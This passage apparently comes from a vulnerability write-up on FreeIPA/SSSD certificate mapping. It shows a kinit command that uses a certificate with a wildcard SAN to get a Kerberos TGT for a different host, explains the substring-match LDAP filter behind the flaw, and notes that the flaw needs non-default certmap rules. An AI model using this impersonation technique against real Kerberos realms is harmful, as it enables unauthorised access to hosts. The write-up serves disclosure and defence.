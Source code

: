Finally, use the new certificate and key to obtain a TGT for a
**different host** whose `fqdn` attributes matches the LDAP
substring filter `(fqdn=*.ipa.test)`.  In this example I acquire the
TGT for **`host/rhel78-0.ipa.test`** (one of the FreeIPA servers).

```shell
$ kinit -X X509_user_identity=FILE:server.pem,server.key \
    host/rhel78-0.ipa.test

$ klist
Ticket cache: KEYRING:persistent:1001:krb_ccache_UnnYkF2
Default principal: host/rhel78-0.ipa.test@IPA.TEST

Valid starting     Expires            Service principal
29/11/22 04:15:52  30/11/22 04:15:52  krbtgt/IPA.TEST@IPA.TEST
```

The exploit succeeds because the unescaped wildcard `dNSName` value
results in a ***substring match*** filter (formatted for
readability):

```
(&
  (|
    (objectClass=krbprincipalaux)
    (objectClass=krbprincipal)
    (objectClass=ipakrbprincipal)
  )
  (|
    (ipaKrbPrincipalAlias=host/rhel78-0.ipa.test@IPA.TEST)
    (krbPrincipalName:caseIgnoreIA5Match:=host/rhel78-0.ipa.test@IPA.TEST)
  )
  (fqdn=*.ipa.test)
)
```

The maprule filter matches any principal whose `fqdn` attribute ends
in `.ipa.test`.  This sub-filter could match multiple principle
entries, but the *client-specified* principal name used in the
`krbPrincipalName` and `ipaKrbPricipalAlias` filters select the one
we want.

If there are multiple SAN values of the relevant type, the order is
important.  The *last* value is used in the template substitution.
In my certificate, the last value is `*.ipa.test` so the exploit
succeeds.  If the order was reversed, the exploit would not succeed.
This is an implementation detail of SSSD; it might as well have used
the first value but it just happened to be implemented this way.


## Discussion

These exploits required a confluence of contributing factors to
succeed.  Deployments using PKINIT with exact certificate matching
(the default) are also unaffected.  The vulnerability only arises
when the customer uses certmap rules.  None are defined by default.
Certmap rules (if they exist) are only *potentially* vulnerable;
several other factors have to come together.
